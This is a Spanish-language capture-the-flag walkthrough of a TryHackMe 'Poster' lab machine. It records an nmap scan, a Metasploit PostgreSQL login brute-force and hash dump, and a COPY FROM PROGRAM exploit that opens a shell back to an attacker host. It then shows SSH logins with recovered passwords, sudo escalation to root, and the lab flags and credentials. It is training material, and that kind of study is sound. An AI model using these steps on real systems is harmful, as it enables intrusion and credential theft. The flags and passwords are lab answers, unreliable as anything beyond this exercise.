









# Poster CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV -oN poster.nmap <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22/tcp | SSH | OpenSSH 7.2p2 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.18 Ubuntu |
| 5432/tcp | PostgreSQL | 9.5.8 - 9.5.23 🔴 |

**Hallazgos críticos:**
- HTTP → Título: **Poster CMS**
- **PostgreSQL expuesto** en puerto 5432 → vector principal de ataque
- Base de datos accesible desde el exterior sin restricciones



---

### Fase 1.2 — Enumeración de Credenciales PostgreSQL

**Comandos ejecutados en Metasploit:**
```bash
# [MÁQUINA ATACANTE]
msfconsole -q
use auxiliary/scanner/postgres/postgres_login
set RHOSTS <TARGET_IP>
run
```

**Credenciales encontradas:**

| Usuario | Password |
|---------|----------|
| **postgres** | **password** 🔴 |



---

### Fase 1.3 — Hash Dump de PostgreSQL

**Comandos ejecutados en Metasploit:**
```bash
# [METASPLOIT]
use auxiliary/scanner/postgres/postgres_hashdump
set RHOSTS <TARGET_IP>
set PASSWORD password
run
```

**Hashes obtenidos:**

| Usuario | Hash MD5 |
|---------|----------|
| darkstart | md58842b99375db43e9fdf238753623a27d |
| poster | md578fb805c7412ae597b399844a54cce0a |
| postgres | md532e12f215ba27cb750c9e093ce4b5127 |
| sistemas | md5f7dbc0d5a06653e74da6b1af9290ee2b |
| ti | md57af9ac4c593e9e4f275576e13f935579 |
| tryhackme | md503aab1165001c8f8ccae31a8824efddc |



---

## Fase 2 — Foothold

### Fase 2.1 — RCE via postgres_copy_from_program_cmd_exec

**Comandos ejecutados en Metasploit:**
```bash
# [METASPLOIT]
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
set RHOSTS <TARGET_IP>
set LHOST <ATTACKER_IP>
set PASSWORD password
run
```

**Hallazgos:**
- Exploit ejecutado correctamente → **Command shell session 1 opened**
- Shell obtenida como usuario `postgres` 🔴
- Usuarios del sistema: `alison` y `dark` en `/home`
- Credenciales encontradas en `/home/dark/credentials.txt`:

| Campo | Valor |
|-------|-------|
| Usuario | dark |
| **Password** | **qwerty1234#!hackme** 🔴 |





---

### Fase 2.2 — SSH como dark → Credenciales de alison en config.php

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ssh dark@<TARGET_IP>
# Password: qwerty1234#!hackme

# [MÁQUINA OBJETIVO - como dark]
cat /var/www/html/config.php
```

**Hallazgos críticos en config.php:**

| Campo | Valor |
|-------|-------|
| dbhost | 127.0.0.1 |
| dbuname | alison |
| **dbpass** | **p4ssw0rdS3cur3!#** 🔴 |
| dbname | mysudopassword |



---

### Fase 2.3 — SSH como alison y User Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ssh alison@<TARGET_IP>
# Password: p4ssw0rdS3cur3!#

# [MÁQUINA OBJETIVO - como alison]
whoami
cat /home/alison/user.txt
```

**User Flag:**
```
THM{postgresql_fa1l_conf1gurat1on}
```



---

## Fase 3 — Escalada de Privilegios

### Fase 3.1 — Identificación del Vector PrivEsc (sudo -l)

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como alison]
sudo -l
```

**Hallazgo crítico:**

| Usuario | Privilegio |
|---------|------------|
| alison | **(ALL : ALL) ALL** 🔴 → acceso total sin restricciones |



---

### Fase 3.2 — Root Shell y Root Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA OBJETIVO - como alison]
sudo -s
whoami
cat /root/root.txt
```

**Root Flag:**
```
THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```


